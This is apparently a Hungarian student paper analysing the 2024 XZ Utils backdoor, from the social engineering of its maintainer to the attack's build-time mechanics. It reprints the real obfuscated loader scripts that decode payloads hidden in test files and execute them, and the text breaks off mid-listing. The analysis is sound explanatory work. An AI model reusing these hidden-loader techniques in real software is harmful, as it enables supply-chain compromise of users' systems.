\documentclass[11pt]{article}

% Language setting
% Replace `english' with e.g. `spanish' to change the document language
\usepackage[hungarian]{babel}

% Set page size and margins
% Replace `letterpaper' with `a4paper' for UK/EU standard size
\usepackage[letterpaper,top=2cm,bottom=2cm,left=3cm,right=3cm,marginparwidth=1.75cm]{geometry}

% Useful packages
\usepackage{amsmath}
\usepackage{graphicx}
\usepackage[colorlinks=true, allcolors=blue]{hyperref}
\usepackage{indentfirst}
\usepackage{hyperref}
\usepackage{float}
\usepackage{placeins}
\usepackage{t1enc}
\usepackage{xparse}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{subcaption}
\usepackage{tikz}
\usepackage[export]{adjustbox}

\usepackage{caption}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstset{style=mystyle}

% Set line spacing
\usepackage{setspace}
\onehalfspacing
 
\title{XZ Backdoor - Korunk egyik legszofisztikáltabb és legveszélyesebb támadása}
\author{Kovács Bálint-Hunor}
\begin{document}

\maketitle

\section{Bevezetés}

\subsection{A dolgozat motivációja}
Amikor először hallottam az XZ-vel kapcsolatos hírekről kicsit lesokkolt, hogy egy ilyen méretű támadást hajtottak végre egy kis tömörítő, archiváló könyvtáron. Az elején nagyon keveset tudtam az esetről, de egyre jobban kezdett érdekelni a téma, hiszen nap mint nap újabb és újabb sokkoló információkat kezdtem el felfedezni a témával kapcsolatban. Úgy gondoltam, hogy ez több kutatást igényel, hiszen itt valami sokkal mélyebben rejlő dolog van, mint egy egyszerű backdoor. 
Ennek okán kezdtem el a témával kapcsolatos információk összegzését, úgy gondolom, hogy hasznos lehet akár mások számára is, akik érdekeltek a témában.

Viszont még mielőtt kitérnék magára a támadásra, illetve a részleteire, véleményem szerint hasznos lenne utána nézni bizonyos fogalmaknak a témával kapcsolatban.

\subsection{Backdoor-ok (hátsó kapuk) és man-in-the-middle típusú támadások}

\subsubsection{A backdoorok (hátsó kapuk)}

A backdoorok olyan rejtett hozzáférési pontokat jelentenek egy szoftverben vagy rendszerben, amelyek lehetővé teszik az engedély nélküli személyek számára a normál hitelesítési folyamatok kikerülését, és a magasabb rendű hozzáférés megszerzését. Bár nehéz meghatározni a backdoorok pontos eredetét, az egyik legjelentősebb példa a "Ken Thompson Hack". 1984-ben Ken Thompson, egy amerikai számítástechnikus, a Unix fordítót módosítva bemutatott egy olyan backdoort, amely  felismert és kihasznált egy konkrét bejelentkezési jelszót. Ez az eset rávilágított a backdoorok által jelentett potenciális veszélyekre és a robosztus biztonsági intézkedések szükségességére.\cite{thompson1984reflections}


\subsubsection{Man-in-the-middle típusú támadások}

A man-in-the-middle (MITM) támadások olyan támadásokat jelentenek, amelyek során egy támadó elfogja és megváltoztatja a két fél közötti kommunikációt a tudtuk nélkül. Ezek a támadások lehetővé teszik a támadónak, hogy megszerezzen érzékeny információkat, vagy manipulálja a kommunikációt rosszindulatú célokra. 
Egy jelentős példa a "Superfish" incidens volt 2015-ben. A Lenovo, egy ismert számítógépgyártó, előtelepítette a Superfish adware-t néhány laptopjára. Ez az adware self-signed root certificate-t használt, amely lehetővé tette számára, hogy elfogja a biztonságos HTTPS kapcsolatokat. Ennek eredményeként a támadó saját hirdetéseket vagy akár kártékony tartalmat is beinjektálhatott a felhasználó böngészési munkameneteibe. Ez az incidens rávilágított a biztonságos kommunikációs protokollok fontosságára és a felhasználói adatvédelmet veszélyeztető előtelepített szoftverek potenciális kockázataira.

\cite{Goodin2015Lenovo}

\section{Az XZ Backdoor-al kapcsolatos pszichológiai manipuláció}

2024. március 29-én, Microsoft-nál dolgozó szoftver fejlesztő Andres Freund, teljesítmény tesztelés során észrevette, hogy a Debian Sid operációs rendszerén, az SSH kérések amiket küldött furcsa módon nem várt időtúllépéshez vezettek. Hibás jelszóval és felhasználónévvel is 500ms-al több időt vettek igénybe. Emellett nem várt CPU kihasználtságot, illetve Valgrind hibákat is okoztak.
Freund azonnal jelezte az incidenst az Openwall Project nyílt forráskódú biztonsági levelezőlistájára.
Kiderült, hogy egy rosszindulatú backdoort (hátsó kaput) talált a liblzma könyvtár 5.6.0 és 5.6.1 verzióiban, pontosabban ezeknek a tarball-jaiban. \cite{Freund_2024}
A számítástechnikában tarball-ként szoktak hivatkozni a tar, illetve tar.gz archívumokra. Ezek nagyon sokszor a szoftverek bináris futtatható fájlait szokták tartalmazni. 
Későbbi nyomozás során, kiderült, hogy a hátsó kapu bizonyos teszt fileokban volt található, azoknak is a bináris futtatható változataiban. A nyomozást nehezítette, hogy minden információ amit vissza lehetett fejteni a backdoor-al kapcsolatban szándékosan ködösítve volt, hogy megnehezítse a támadás feltárását.
Kiderült, hogy ez a hátsó kapu adminisztrátori, teljeskörű hozzáférést biztosított volna, minden olyan rendszeren ahova bejutott volna a támadó, értelemszerűen szervereket, szerver hálózatokat célzott meg.

Az, hogy a rosszindulatú kódok a bináris fájlokban voltak elrejtve, azt a következtetést vonta maga után, hogy a liblzma könyvtár fejlesztője szándékosan hagyott hátsó kaput egy olyan szoftverben, amit a közösség tisztelt és használt hosszú éveken át, a valóságban ez viszont közel sem volt ennyire egyszerű.

\subsection{A támadást megelőző történések}\cite{Boehs_2024}\cite{Cox}\cite{Wikipedia_2024}

\subsubsection{Az XZ Utils szoftverkészlet háttértörténete}
Az XZ Utils (korábban LZMA Utils)  szoftverkészletet, mely tartalmazza a lzma és xz programokat, Lasse Collin, Igor Pavlov (és még sokan mások) fejlesztetik 2009. január 14. óta. Habár sokan dolgoztak a szoftverkészleten, hosszú időn át egyedül Lasse feladata volt a karbantartása és fejlesztése.

\subsubsection{2021 - Kezdetek}

Jia Tan (JiaT75) létrehozza a GitHub profilját.

Az első commitjai már nagyon gyanúsak voltak. Specifikusan, nyitott egy PR-t (Pull Request-et) a libarchive könvytárhoz, melyben állítása szerint a következőket módosította: "Hibaüzenet hozzáadása a figyelmeztetéshez, amikor a bsdtar segítségével történik az untar művelet". Viszont ez a hozzájárulás ennél sokkal többet rejtett ugyanis kicserélt egy safe\_fprint műveletet egy nem biztonságos változatra, ezzel mégtöbb sebezhetőséget okozva.
Meglepően a hozzájárulást elfogadták kérdés nélkül. (Később javították a sebezhetőséget)

Véleményem szerint Jia itt probálta felmérni, hogy mennyire tud hatással lenni a különböző könyvtárakra, kiszúrják-e, ha valami gyanús kódot próbál meg írni.
Emellett a GitHub profiljának az imázsát is építette, hiszen egy könyvtárhoz való hozzájárulás által sokkal megbízhatóbbnak tűnt, és szépen nézett ki a munkássága, amennyiben bárki kutakodni próbált volna a tapasztalatát illetően.

\subsubsection{2022 - Lasse Collin manipulálása}
2022. áprilisában Jia Tan küldött egy patch-et (hiba javítást) egy levelező listán. 
Ekkor lépett színre egy új személy Jigar Kumar, aki nyomatékosan, már-már erőszakosan próbálta kényszeríteni Lasse Collin-t hogy fogadja el a javításokat minél hamarabb.

Nem sokkal később Jigar Kumar nyomást gyakorolt Lasse-re, hogy adjon hozzá egy új maintainert (karbantartót) az XZ projekthez. 
A beszélgetések során kiderült, hogy Lasse mentális problémákkal is küzködik, emiatt is késtek a projekttel kapcsolatos fejlesztések.

Három nappal a beszélgetések után Jia Tan létrehozta az első hozzájárulását mint maintainer (karbantartó) a projekthez. Ezután a hozzájárulás után átlagos maintainerré válik a projektnél. Rövidesen a második legaktívabb személy lett aki fejleszti a projektet egészen a backdoor felfedezéséig.
Az, hogy pontosan mikor lett elfogadott tagja a közösségnek nem teljesen tiszta a mai napig.

A történések után Jigar Kumar-t nem látták sehol aktívan. A nyomás, a feszültség gerjesztésében egy másik személy Dennis Ens is részt vett, akit szintén nem láttak a történések után aktívan.

\subsubsection{2023 - Jia Tan befolyása}

2023. márciusában a Google oss-fuzz projekjénél az XZ utils-al kapcsolatos elsődleges elérhetőség frissítve lett Jia e-mailére.

Nemsokkal később bekerült a projektbe az exploit során használt tesztelési infrastruktúra, és habár ez látszólag Lasse Collin hozzájárulásával került be, Jia Tan hagyta jóvá, a kódot pedig Hans Jansen írta júniusban a következőképpen: "Commit: liblzma: Hozzáadva ifunc implementáció a crc64\_fast.c-hez",  illetve "PR: Hansjans162 által kicserélt crc64\_fast konstruktor ifuncra".

Hans Jansen fiókja látszólag csak azért lett létrehozva, hogy ezt a hozzájárulást létrehozzák. Nagyon kevés tevékenység tapasztalható előtte és utána tőle. 
Később az XZ kompromittált verziójának elfogadását sürgették, hogy minél hamarabb kerüljön be Debianba.

Júliusban egy PR nyílt az oss-fuzzban az ifunc letiltására a fuzzing buildekhez, a fent említett változtatások által okozott problémák miatt. 
Ez szándékos volt, hogy elrejtse a kártékony változtatásokat, amelyek később kerültek be. 

Emellett Jia problémát jelezett a clangban egy figyelmeztetés miatt, amely valóban helytelen volt, de felhívta a figyelmet az ifuncokra.

\subsubsection{2024 - Végső lépések}

Újabb hozzájárulás került be a Google oss-fuzz projekjéhez, amelyben a tukaani.org/xz/ domain-t xz.tukaani.org/xz-utils/-re változtatták, ahol az xz subdomain a projekt GitHub Pages oldalala lett. Ez csak erősítette, hogy mennyi hozzáféréssel rendelkezik Jia a projekt fölött, ezt a weboldalt is ő kezelte már.
Az utolsó szükséges lépések a támadáshoz a következő commitokkal kerültek be: "Tesztek: Néhány tesztfájl hozzáadása", illetve "Tesztek: Két tesztfájl frissítése".

\subsection{Fontos személyek a támadást illetően}

\subsubsection{Lasse Collin - A tökéletes célpont}

Amint fentebb is említettem, nagyon sokáig Lasse Collin fejlesztette és tartotta karban az említett könyvtárat, szoftverkészletet. Mint bármely ember hozzú évek munkája során ő is belefáradt a projekt karbantartásába. Ez teljesen érthető is, hiszen több, mint 15 éven át dolgozott ezen a projekten, és dolgozik a mai napig is. 
Lasse többszört is jelezte 2022-ben a Jigar Kumar-al való beszélgetés során, hogy ez egy hobbi projektként indult, és teljesen ingyen és bérmentve tartja karban.

Amint a \autoref{fig:xkcd}-en is látható a támadóknak sikerült megtalálniuk a tökéletes célpontot. Találtak egy olyan projektet amelytől, habár közvetetten, de függött az egész mai modern digitális infrastruktúra. És ezt a projektet egy olyan ember tartotta karban aki a kiégés határán volt.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.285\textwidth]{assets/dependency.png}
    \caption{xkcd: Dependency}
    \medskip
    \small
    "A mai modern digitális infrastruktúra egy olyan projekttől függ, amit 
    
    egy random személy tart karban Nebraszkában, köszönet nélkül 2003 óta."
    \label{fig:xkcd}
    \cite{xkcd}
    \FloatBarrier
\end{figure}

\subsubsection{Jia Tan, Jigar Kumar,  Dennis Ens és Hans Jansen}

Habár a történet szempontjából úgy tűnhet, hogy ez a négy személy teljesen különálló személyek, a valóságban akár az is meglehet, hogy egyetlen személy, csoport vagy állam áll a háttérben. De ezek egyelőre mind csak elméletek, ami biztos az viszont az, hogy együtt dolgoztak a támadás véghezvitelében. 

Szembetűnő, hogy mindegyik felhasználó név+szám típusú fiókkal rendelkezett, és nagyon kevés, vagy szinte semmi előző aktivitásuk nem volt ezen a projekten kívül.

A nevekkel kapcsolatban más furcsaságok is előfordultak, nagy valószínűséggel létező személyek neveit módosították, használták fel, ezzel is nehezítve a kilétük kiderítését.


\subsubsection{Andres Freund - Aki nélkül nem derült volna fény a támadásra}

Andres Freund egy PostgreSQL fejlesztő, aki a Microsoftnál dolgozik. Érdekes, hogy nem kiberbiztonsági specialista, lényegében a véletlen folytán fedezte fel a backdoort, viszont nélküle talán soha nem derült volna fény az XZ-t ért támadásról.

\subsection{A támadás kivitelezésének kulcsa}

A támadás nagyon gondosan kitervelt volt, több éven át alapozva.
Mégis rengeteg kérdés merül fel egy ilyen támadás során. Példaként, hogy lehet backdoor-t csempészni egy olyan szoftverbe, aminek a kódja nyílt forráskódú, és bárki által elérhető, olvasható, módosítható?

Először is, a támadóknak szerencséjük volt, hiszen találtak egy olyan projektet ami önmagában nem egyszerű problémát hivatott megoldani, hiszen egy kompressziós, arhiváló algoritmus elemében egy nehezebb, komplexebb feladatot valósít meg.

Emellett, indirekt módon használták fel ezt az algoritmust. Kihasználták azt az egyszerű tényt, hogy a systemd által futtatott ssh használja ezt a szoftvert.
Illetve maguk a fertőzött fájlok a bináris teszt fájlok voltak, amikre senki sem gyanakodott volna.
Sajnos a programozás világában a teszt kódokra nagyon kevés figyelem irányul, és ezt nagyon jól tudták a támadók is.

\section{Az XZ Backdoor technikai oldala}\cite{Coldwind_2024}\cite{Freund_2024}

\subsection{Megjegyzések}

A backdoor becsempészése a bináris fájlokba három lépésben történt: nulladik, első, és második.
Az 5.6.0 illetve 5.6.1-es verzió különbségek minimális eltéréssel rendelkeztek, ezeket igyekszem kiemelni a példa kódokban is.

\subsection{Nulladik lépés -- előkészületek}
Ahogy Andres is kiemelte, a gyanús dolgok az \lstinline{"m4/build-to-host.m4"} fájlban kezdődtek.

Releváns kód részletek:
\begin{lstlisting}[language=bash]
...
gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
...
gl_path_map='tr "\t \-_" " \t_\-"'
...
\end{lstlisting}
Ez a kód valamikor a build process közben fut le, és kicsomagolja az első lépéshez szükséges szkripteket.
\begin{enumerate}
  \item A \lstinline{"tests/files/bad-3-corrupt\_lzma2.xz"} bájtjait kiolvassa és közvetíti a standard kimenet / bemenetre a következő lépéshez. A végén pedig hozzáad egy sortörést \lstinline{("\textbackslash n")} is.
  \item A második lépésben futtatja a \lstinline{tr} parancsot, ami felcserél bizonyos karaktereket más karakterekre.
  Például az \lstinline{echo "BASH" | tr "ABCD" "1234"} parancs \lstinline{21SH} eredményt fog visszatéríteni. Visszatérve a kódra,  következő parancs hajtódik végre \lstinline{tr "\t \-_" " \t_\-"}, ami a következő lépéseket hajtja végre a \lstinline{tests/files/bad-3-corrupt_lzma2.xz} fájlban:
  \begin{itemize}
      \item 0x09 (\textbackslash t)-t kicseréli 0x20-ra,
      \item 0x20 (szóköz)-t kicseréli 0x09-ra,
      \item 0x2d (-)-t kicseréli 0x5f-re,
      \item 0x5f (\_)-t kicseréli 0x2d-re,
  \end{itemize}
  Ezzel kijavítódik a korruptált fájl és ezáltal ismét egy megfelelő xz folyamot alkot.
  \item Végül ezt a kijavított xz folyamot hibák figyelmen kívül hagyásával kicsomagolta. 
  Ennek eredménye az 1. lépés szkriptje, amely azonnal végrehajtásra kerül.
\end{enumerate}

\subsection{Első lépés}\label{subsec:first-stage}
Az \lstinline{5.6.0} és \lstinline{5.6.1}-es verziók közötti a különbség a kód blokkban levő \textbf{3-tól 7-ig sorig} húzódó rész, illetve pár érték a \textbf{15} sorban levő \lstinline{tr} parancs után.

\begin{lstlisting}[language=bash]
####Hello####
# kommentelt binaris ertekek
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir="../../$srcdir"
fi
export i="((head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +939)";(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c +31233|tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377")|xz -F raw --lzma1 -dc|/bin/sh
####World####
\end{lstlisting}

Egyéb érdekesség a két verzió között bizonyos random bájt értékek kikommentelve a második sorban:
\begin{itemize}
    \item Az \lstinline{5.6.0} verzióban \lstinline{86 F9 5A F7 2E 68 6A BC}
    \item Az \lstinline{5.6.1} verzióban pedig ezek \lstinline{E5 55 89 B7 24 04 D8 17}
\end{itemize}

Nem lehet tudni ezek a bináris értékek mennyire fontosak, de több helyen is le voltak jegyezve, emiatt fontosnak tartottam, hogy bekerüljenek a dolgozatba is.

Ami még szembetűnő, hogy az \lstinline{5.6.1} verzióban bekerült egy teszt, ami azt vizsgálja, hogy a szkript Linux rendszeren fut-e. Az, hogy ez a teszt miért került be 5-ször, azt nem lehet tudni.

Ami érdekesebb lehet, az a hatalmas \lstinline{export i=...} sor, ami a második lépés számára készíti elő a kódot.
Lépésről lépésre a következő történik:
\begin{enumerate}
    \item Az \lstinline{export i=...} az elején lényegében egy függvény definíció, ami a harmadik allépésben, illetve a második lépésben lesz felhasználva.
    
    \item A legelső fontosabb allépés lényegében a második lépés számára történő decompression, amelyet ironikus módon az \lstinline{xz parancs} segítségével hajtanak végre a \lstinline{good-large_compressed.lzma} fájlon a standard kimenetre a következő argumentumokkal \lstinline{xz -dc}, ahol a \lstinline{-d} argumentum a decompression-t, a \lstinline{-c} argumentum pedig a standard kimenetet jelöli. Ez, mint korábban is, egy olyan láncot indít el, amelyben az egyik lépés kimenetei a következő lépés bemeneteként szolgálnak.

    \item Az \lstinline{eval \$i} lényegében meghívja az előre definiált \lstinline{i} függvényt. Ez a függvény egy hatalmas \lstinline{head} parancs hívás láncból áll, amelyek vagy kiírják a következő \lstinline{N} bájtot, vagy kiugorják azokat. 
    A legelső ilyen parancs hívás a \lstinline{head -c +1024 >/dev/null}, ahol \lstinline{c} argumentum azt jelzi a \lstinline{head} számára, hogy csak a következő \lstinline{1024} bájtot olvassa a bejövő adatfolyamból, viszont mivel a kimenet \lstinline{/dev/null}-ra van irányítva lényegében, ki fogja szökni ezt az \lstinline{1024} bájtot.
    Ha megfigyeljük a legelső \lstinline{1024} bájtot a \lstinline{good-large_compressed.lzma} fájl dekompresszált adatfolyamából, lényegében az \lstinline{"A"} karakter \lstinline{0x41} bájtját láthatjuk \lstinline{1024-szer} ismételve.
    A következő parancs, \lstinline{head -c +2048}, hasonló az előző parancshoz, viszont itt a \lstinline{2048} bájtot nem veti el, hanem továbbítja a következő lépéshez, mint bemenet.
    
    Ez a minta folyamatosan ismétlődik: eldob \lstinline{1024} bájtot, majd tovább ad \lstinline{2048} bájtot, egészen addig, amíg el nem ér a fájl végéig, ahol \lstinline{5.6.0}-ás verzióban \lstinline{724} bájt, a \lstinline{5.6.1}-es verzióban pedig \lstinline{939} bájt lesz továbbítva.
    Ezt a folyamatot vizuálisan a \autoref{fig:data-carving} illusztráción lehet végig követni, ahol 0. bájt a bal felső sarokban van reprezentálva. Minden oszlop a \autoref{fig:good-large_compressed} képen \lstinline{256} bájt adatot reprezentál szürkeárnyalatos formában. Az "üres szürke részek", azok a magas entrópiával jelölt, zajos régiók amit a szkript futás közben eltávolít, a maradék hasznos adatot pedig összerakva megkapjuk a \autoref{fig:stage1_carved} fájlt.
    \begin{figure}[!ht]
        \centering
        \subcaptionbox{kezdeti fájl, szegmentált adatokkal\label{fig:good-large_compressed}}{
\includegraphics[width=0.3\textwidth]{assets/good-large_compressed.data.png}}
        \qquad\tikz[baseline=-\baselineskip]\draw[ultra thick,->] (0,0) -- ++ (1,0);\qquad
        \subcaptionbox{összerakott végső adat\label{fig:stage1_carved}}{
\includegraphics[width=0.3\textwidth]{assets/stage1_carved.data.png}}
        \caption{A hasznos bájtok összerakása}
        \label{fig:data-carving}
    \end{figure}

    \item A \lstinline{tail -c +31233} parancs segítségével elveti a kezdeti részét az adatnak (ebben van elrejtve a backdoor a következő lépéshez, ezért nem szükséges itt).
    Az \lstinline{5.6.0}-ban ez az első \lstinline{31264} bájt lenne, az \lstinline{5.6.1}-ben pedig \lstinline{31232} (az egyszeri különbség azért van, mert a \lstinline{tail -c +N} azt jelenti, hogy "N. bájttól kezdődik a kiírás" és nem azt, hogy "az első N bájtot hagy figyelmen kívül").

    \item Ebben az allépésben újra megismételi a \lstinline{tr} parancsot, amelyet ebben az esetben egy nagyon egyszerű helyettesítő rejtjelezőként használ, a kulcs (bájtértékek leképezése) az 5.6.0-ban és az 5.6.1-ben eltérő:
    \begin{lstlisting}[language=bash]
5.6.0: tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377"
    
5.6.1: tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377"
    \end{lstlisting}
    Lényegében ez azt jelenti, hogy (az \lstinline{5.6.0} esetében) az \lstinline{5}-ös értékű bájtot a \lstinline{0}-ás értékű bájtra fogja helyettesíteni, a \lstinline{6}-os értékű bájtot az \lstinline{1}-es értékű bájtra fogja helyettesíteni. Minden esetben \lstinline{6} tartomány van, amelyek a teljes \lstinline{0 -- 255} (azaz \lstinline{377} oktális) tartományt leképezik.

    \item Az utolsó lépésben a dekódolt adatokat dekompresszálja az \lstinline{xz -F raw --lzma1 -dc} parancs-al, és az így kapott 2. lépést azonnal végrehajtja.
    
\end{enumerate}

\subsection{Második lépés}
A 2. lépés az Andres által az eredeti e-mailben csatolt \href{https://www.openwall.com/lists/oss-security/2024/03/29/4/1}{infected.txt} fájl-ban található bash szkript (ez az \lstinline{5.6.0} verzió). Ebben a bash szkriptben sok minden történik, mivel itt hajtódik végre a tényleges fordítási folyamat módosítása.

Az obfuszkációs elemzés szempontjából három érdekes töredéke van ennek a szkriptnek, amelyek közül kettő csak az \lstinline{5.6.1}-es verzióban jelenik meg. Kezdjük velük, mivel ezek egyszerűbbek is.

\subsubsection{A második lépés "kiterjesztési" mechanizmusa:}
\begin{enumerate}
    \item töredék:
    \begin{lstlisting}[language=bash]
vs=`grep -broaF '~!:_ W' $srcdir/tests/files/ 2>/dev/null`
if test "x$vs" != "x" > /dev/null 2>&1;then
f1=`echo $vs | cut -d: -f1`
if test "x$f1" != "x" > /dev/null 2>&1;then
start=`expr $(echo $vs | cut -d: -f2) + 7`
ve=`grep -broaF '|_!{ -' $srcdir/tests/files/ 2>/dev/null`
if test "x$ve" != "x" > /dev/null 2>&1;then
f2=`echo $ve | cut -d: -f1`
if test "x$f2" != "x" > /dev/null 2>&1;then
[ ! "x$f2" = "x$f1" ] && exit 0
[ ! -f $f1 ] && exit 0
end=`expr $(echo $ve | cut -d: -f2) - $start`
eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc`
fi
fi
fi
fi
    \end{lstlisting}
    \addtocounter{enumi}{1}
    \item töredék
    \begin{lstlisting}[language=bash]
vs=`grep -broaF 'jV!.^%' $top_srcdir/tests/files/ 2>/dev/null`
if test "x$vs" != "x" > /dev/null 2>&1;then
f1=`echo $vs | cut -d: -f1`
if test "x$f1" != "x" > /dev/null 2>&1;then
start=`expr $(echo $vs | cut -d: -f2) + 7`
ve=`grep -broaF '%.R.1Z' $top_srcdir/tests/files/ 2>/dev/null`
if test "x$ve" != "x" > /dev/null 2>&1;then
f2=`echo $ve | cut -d: -f1`
if test "x$f2" != "x" > /dev/null 2>&1;then
[ ! "x$f2" = "x$f1" ] && exit 0
[ ! -f $f1 ] && exit 0
end=`expr $(echo $ve | cut -d: -f2) - $start`
eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc`
fi
fi
fi
fi
    \end{lstlisting}
\end{enumerate}
Lényegében ezek a fragmensek majdnem identikusak, szóval vizsgálhatjuk őket egyszerre is.
\begin{enumerate}
    \item Először meg próbálják megtalálni a \lstinline{tests/files} könyvtárat a \lstinline{grep -broaF} parancs segítségével, amik a következő bájtokat tartalmazták (signature):
    \begin{lstlisting}[language=bash]
Fragment 1: "~!:_ W" and "|_!{ -"
Fragment 3: "jV!.^%" and "%.R.1Z"
    \end{lstlisting}
    Az így kiírt \lstinline{grep} értéke pedig a \lstinline{file_name:offset:signature} formátumot követi:
    \begin{lstlisting}[language=bash]
$ grep -broaF "XYZ"
testfile:9:XYZ
    \end{lstlisting}
    
    \item Ha ilyen fájlt talált, akkor minden egyes fájlból kivonja az offsetet(eltolást) (\lstinline{cut -d: -f2} parancs segítségével, amely a 2. mezőt veszi, feltételezve, hogy az a mezőhatároló), és az első offset + 7-et \textbf{\textdollar start} néven, a második offsetet pedig a második fájlból \textbf{\textdollar end} néven menti el.

    \item Amint a szkript megtalálta a \textbf{\textdollar start} és \textbf{\textdollar end} offset értékeket, kihámozza azokat a részeket is a fájlból amely az első signature-t tartalmazta:
    \begin{lstlisting}[language=bash]
cat $f1 | tail -c +${start} | head -c +${end}
    \end{lstlisting}

    \item Ezt követi egy helyettesítő rejtjelezés (az \lstinline{5.6.0} verziójú kulcsot használva az \autoref{subsec:first-stage}-ból):
    \begin{lstlisting}[language=bash]
tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377"
    \end{lstlisting}

    \item Végül dekompresszálja az adatokat, hogy azokat azonnal végre lehessen hajtani:
        \begin{lstlisting}[language=bash]
eval `... | xz -F raw --lzma2 -dc`
    \end{lstlisting}
    
\end{enumerate}

Érdekes, hogy a vizsgált TAR-archívumok (\textbf{5.6.0 és 5.6.1}) egyikében sem voltak olyan fájlok, amelyeken az aláírások bármelyike megtalálható lett volna. Ez az egész dolog alapvetően egy olyan "bővítési/javítási" rendszernek tűnik, amely lehetővé teszi a 2. lépés keretében futtatandó jövőbeli szkriptek hozzáadását anélkül, hogy módosítani kellene az eredeti payload-carrying tesztfájlokat. Ami egy okos ötlet, mivel a "rossz" és "jó" tesztfájlok újra és újra történő módosítása elég gyanús lenne. Úgy tűnik tehát, hogy a terv az volt, hogy helyette új tesztfájlokat adtak volna hozzá, amelyeket dekódoltak és futtattak volna.

\subsubsection{A backdoor kibontása}
Amint arra Andres az eredeti e-mailben is rámutatott, egy bizonyos ponton egy .o fájl kibontásra kerül, és beleszövődik a fordítási/linkelési folyamatba, ezért az alábbi kód felel:
\begin{lstlisting}[language=bash]
N=0
W=88664
else
N=88664
W=0
fi
xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" | LC_ALL=C awk 'BEGIN{FS="\n";RS="\n";ORS="";m=256;for(i=0;i<m;i++){t[sprintf("x%c",i)]=i;c[i]=((i*7)+5)%m;}i=0;j=0;for(l=0;l<8192;l++){i=(i+1)%m;a=c[i];j=(j+a)%m;c[i]=c[j];c[j]=a;}}{v=t["x" (NF<1?RS:$1)];i=(i+1)%m;a=c[i];j=(j+a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a+b)%m];printf "%c",(v+k)%m}' | xz -dc --single-stream | ((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o || true
\end{lstlisting}
Az \textbf{5.6.0 és 5.6.1} verziók közti különbség a payload méretek, amelyek \textbf{5.6.0} verzióban \textbf{88792}, az \textbf{5.6.1} verzióban pedig \textbf{88664}, illetve változik egy érték az \textbf{awk} szkriptben is, ezt a későbbiekben jobban kifejtem.

Mint az előző lépésekben is, az adatok kinyerése parancsok láncolatán keresztül át történt, ahol az előző parancs kimenet a következő parancs bemenete. Emellett nagyon sok lépés hasonlíta az \autoref{subsec:first-stage}-ben leírtakra.

\begin{enumerate}
    \item Az első allépés megegyezik az 1. lépés 2. allépésével - a \lstinline{tests/files/good-large\_compressed.lzma} fájlt az \lstinline{xz}-vel kicsomagoljuk.

    \item A második lépés is megegyezik az 1. lépés 3. allépésével - ez volt a sok egymásba láncolt \lstinline{head} parancs hívás.

    \item Viszont ezután kezdenek eltérni a lépések, az előző kimenetet átalakítják a \lstinline{sed} parancs segítségével (a kódban angol nyelvű kommentek találhatóak, amelyek a forrásból származnak, és segíthetnek a kód megértésében):
    \begin{lstlisting}[language=bash]
LC_ALL=C sed "s/\(.\)/\1\n/g"
    \end{lstlisting}
    Ez a parancs lényegében minden bájt után sortörés karaktert szúr be, kivéve a sortörés karakter után.
    Lényegében ez egy byte-per-line állományt fog alkotni.

    \item Az \lstinline{awk} parancs lényegében az RC4-hez egy nagyon hasonló algoritmust implementál le:
    \begin{lstlisting}[language=bash]
BEGIN {  # Initialization part.
  FS = "\n";  # Some AWK settings.
  RS = "\n";
  ORS = "";
  m = 256;
  for(i=0;i<m;i++) {
